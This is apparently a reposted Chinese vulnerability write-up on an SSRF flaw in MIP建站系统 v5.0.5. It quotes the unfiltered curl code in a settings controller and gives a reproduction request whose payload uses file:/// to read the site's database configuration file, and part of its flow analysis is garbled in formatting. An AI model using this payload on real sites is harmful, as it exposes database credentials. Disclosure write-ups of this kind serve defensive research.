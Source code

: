 # MIP建站系统 v5.0.5 SSRF漏洞

> 原文：[https://www.zhihuifly.com/t/topic/3021](https://www.zhihuifly.com/t/topic/3021)

# MIP建站系统 v5.0.5 SSRF漏洞

## 一、漏洞简介

## 二、漏洞影响

MIP建站系统 v5.0.5

## 三、复现过程

### 漏洞分析

进行简单的漏洞分析。
根据漏洞定位代码文件：app/setting/controller/ApiAdminDomainSettings.php
受影响代码：

```
public function urlPost(Request $request) {
        $postAddress = input('post.postAddress');
        if (!$postAddress) {
            return jsonError('请先去设置推送的接口');
        }
        $api = trim($postAddress);
        if (strpos($api,'type=realtime') !== false || strpos($api,'type=batch') !== false) {
            if (!config('siteInfo')['guanfanghaoStatus']) {
                return jsonError('检测到您未开启熊掌号，请开启后再推送');
            }
        }
        $url = input('post.url');
        $id = input('post.id');
        if (!$url) {
            return jsonError('没有检测到你推送的页面地址');
        }   
        $urls[] = $url;
        $ch = curl_init();
        $options =  array(
            CURLOPT_URL => $api,
            CURLOPT_POST => true,
            CURLOPT_RETURNTRANSFER => true,
            CURLOPT_POSTFIELDS => implode("\n", $urls),
            CURLOPT_HTTPHEADER => array('Content-Type: text/plain'),
        );
        curl_setopt_array($ch, $options);
        $result = curl_exec($ch); 
```

流程分析：

```
1、$ postAddress = input('post.postAddress');  
    //POST方法将$postAddress参数传入 `2、$api = trim($postAddress);

$options =  array(

CURLOPT_URL => $api,

CURLOPT_POST => true,

CURLOPT_RETURNTRANSFER => true,

CURLOPT_POSTFIELDS => implode("\n", $urls),

CURLOPT_HTTPHEADER => array(‘Content-Type: text/plain’),

);

curl_setopt_array($ch, $options);

//赋予$api参数，一直至$ch，未进行任何过滤

3、$result = curl_exec($ch);

//最后执行` 
```

### 漏洞复现

第一步，登陆该后台：

第二步，访问所受影响的代码文件：

```
http://www.0-sec.org/index.php？s=/setting/ApiAdminDomainSettings/urlPost；
POST方法进行请求，payload：  
postAddress=file:///C:\phpStudy\PHPTutorial\WWW\app\database.php&url=test&id=test 
```

![image](img/812c40f8b507af04d42f6ad1cc85ef25.png)

## 参考链接

> https://xz.aliyun.com/t/7431